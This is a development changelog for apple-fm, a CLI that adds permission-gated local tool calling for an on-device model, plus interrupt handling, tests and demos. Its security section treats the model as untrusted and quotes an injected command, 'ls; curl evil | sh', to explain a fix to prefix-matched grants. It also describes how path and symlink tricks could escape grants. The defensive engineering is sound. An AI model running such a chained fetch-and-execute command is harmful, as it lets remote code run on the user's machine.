


# Technical Changelog — v1.0.1 → v1.2 (HEAD)

**Range:** `v1.0.1` (2026-06-20) → HEAD `d35a2b9` (2026-07-22) · **34 commits** ·
86 files, **+6,436 / −662**. HEAD is the untagged development snapshot for the next
feature release (`package.json` still reads `1.0.1`; "v1.2" names this line of work).

## Headline

The release turns apple-fm from a text/chat CLI into a **tool-calling agent** with a
security-hardened, permission-gated tool subsystem, plus **Esc-to-interrupt** chat and a
large test/doc expansion. Net posture is unchanged where it matters: **zero runtime
dependencies and no network calls** — the one networked tool (`web`) was shipped and then
removed, restoring NFR-1.

| Area | What landed | Tickets |
|------|-------------|---------|
| **Tool calling (FR-14)** | Extensible `ToolRegistry`, `read`/`bash` built-ins, per-call permission gate, Swift `DynamicTool` round-trip | AFM-30–34, 36–43, 46 |
| **Security hardening** | Two adversarial-review batches treating the model as untrusted | AFM-62–70, 76–80 |
| **Esc interrupt (FR-15)** | Abort in-flight reply; keep the partial in history | AFM-37, 45 |
| **Testing** | Device-free E2E CLI suite + tool/permission/state-transition suites | AFM-25, 27/28, 52–54 |
| **Demos** | Rebuilt on domotion, upgraded 0.15→0.21.1, cursor + gradient, recaptured | AFM-47/49, 22, 59/60, 82 |
| **Helper / protocol** | NSError→wire-error mapping; validated probe parsing; `tool_call`/`cancel` protocol | AFM-24, 79 |

## Tool calling (the flagship)

A new `src/tools/` subsystem and a Swift `Tools.swift` `DynamicTool` adapter let the
on-device model invoke local tools, each gated by a per-call permission decision. All
tools are **local — no network**.

Delivered in phases: **P1** generic plumbing + `read` (AFM-31) · **P2** permission gate
(AFM-32) · **P3** `bash` (AFM-33) · **P4** `web` fetch (AFM-34) — later **removed**
(AFM-43) when the model proved unreliable with it, keeping apple-fm network-free. The
dispatcher was extracted to `dispatch.ts` (AFM-46). Public API adds `ToolRegistry`,
`registryFromNames`, `BUILTIN_TOOLS`, `readTool`, `bashTool`, `PermissionPolicy`, and the
`Tool`/`ToolContext`/`PermissionMode` types.

## Security hardening (model treated as untrusted)

Two adversarial reviews concentrated risk in **key matching** and **prompt rendering**,
then closed it:

- **AFM-63 (HIGH):** exact-equality key matching replaces prefix `startsWith` — a `bash`
  grant for `ls` no longer covers `ls; curl evil | sh`; `read` grants resolve `..` and
  require a path-separator boundary.
- **AFM-76 (HIGH):** `read` enforces the grant boundary against the **symlink-resolved**
  real path (no escape from an approved dir via a symlink).
- **AFM-64/68:** `--yes` never blanket-approves a `dangerous` tool (`bash`); the
  model-controlled command/path is sanitized (`sanitizeForPrompt`) before the approval
  prompt (strip control/ANSI, cap length).
- **AFM-65/69/70/77:** `bash` spawns detached and is killed by **process group** (no
  orphaned background children), output is capped (~256 KiB, no OOM) with a pipe-drain
  grace, and runs under a scoped **env allowlist** by default; `read` refuses non-regular
  files and is byte-bounded + timed.
- **AFM-78:** tools registered with no policy install a **fail-closed** default.
- **AFM-79 / AFM-80:** `parseProbeResult` validates the probe line shape; release CI drops
  the workflow-wide permissions block for **per-job least privilege**.

## Interrupt, testing, demos

- **Esc interrupt (FR-15):** a `cancel` session command ends the turn with its **partial**
  text (not an error); the user prompt + partial reply stay in history so follow-ups stay
  coherent. Threaded `LiveSession.send(…, signal)` → `ChatSession` → `repl.ts`; the Swift
  cancel path is on-device verified (AFM-45).
- **Testing:** a device-free **E2E CLI suite** (`tests/e2e/cli.e2e.test.ts`, AFM-25) drives
  the real bin against the stub helper; new unit suites cover tools, permissions, dispatch,
  output caps, and **state-transition** sequences for `session`/`liveSession` (AFM-53/54).
  Suite grew to **226 passing**; a `conventions.test.ts` guards project rules.
- **Demos:** rebuilt on domotion terminal recordings (AFM-47/49), upgraded
  `domotion-svg` 0.15→**0.21.1** with transform-compat verification (AFM-60), added a
  blinking caret + gradient intro card (AFM-22), and **recaptured on-device** (AFM-82).
- **Docs:** four new requirement docs (`8-tool-support`, `9-tool-calling`, `10-permissions`,
  `11-builtin-tools`), a `manual-test-plan.md`, and the `tool_call`/`cancel` protocol
  additions in `4-protocol.md`.
